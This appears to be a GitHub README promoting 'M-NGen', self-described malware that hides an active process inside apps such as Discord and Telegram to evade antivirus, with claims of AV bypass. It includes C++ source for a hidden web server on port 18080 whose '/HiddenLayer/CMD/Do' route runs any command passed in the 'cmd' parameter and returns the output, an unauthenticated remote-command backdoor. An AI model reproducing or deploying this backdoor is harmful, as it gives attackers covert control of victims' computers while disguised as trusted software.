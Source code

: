 # M-NGen

M-NGen Malware Revolution
I managed to develop a completely new type of malware... Honestly, I've never seen malware work this way before!

I was able to embed a hidden active process into any application! I tested it on applications like Discord, Telegram, and some others, and the method was completely successful... The challenge here is that antivirus software will perceive the application as a legitimate version of Discord or any other app! 😳

The interesting part is that the embedding method I used is not the usual Process Injection technique.

<div align="center">
  <img src="https://files.catbox.moe/2x1ppg.png" width="350px">
</div>

> [!WARNING]  
> The method is still private, I can't share it publicly!

<div align="center">
  <img src="https://files.catbox.moe/3yceau.jpg" width="760px">
</div>

## Video :

https://github.com/user-attachments/assets/51f80947-a945-41e7-83d0-835b0fa38754

AV BYPASS :
<div align="center">
  <img src="https://files.catbox.moe/diwxzf.jpg" width="760px">
</div>


## Used languages:

1. C++
2. NodeJs
3. C#

## Part Of Code : (It's Note All of The code)

```cpp
// This is A part From The Code 
#include "crow_all.h"
#include <cstdlib>
#include <array>
#include <iostream>
#include <sstream>

std::string executeCommand(const std::string& command) {
    std::array<char, 128> buffer;
    std::stringstream result;
    
    FILE* pipe = popen(command.c_str(), "r");
    if (!pipe) return "Failed to execute command";

    while (fgets(buffer.data(), buffer.size(), pipe) != nullptr) {
        result << buffer.data();
    }
    
    pclose(pipe);
    return result.str();
}

int main() {
    crow::SimpleApp app;

    CROW_ROUTE(app, "/HiddenLayer/CMD/Do")
        .methods(crow::HTTPMethod::GET)([](const crow::request& req) {
            auto query_params = crow::query_string{req.url_params};
            std::string command = query_params.get("cmd") ? query_params.get("cmd") : "";

            if (command.empty()) {
                return crow::response(400, "Missing 'cmd' parameter");
            }

            std::string output = executeCommand(command);
            return crow::response(output);
        });

    app.port(18080).multithreaded().run();
}



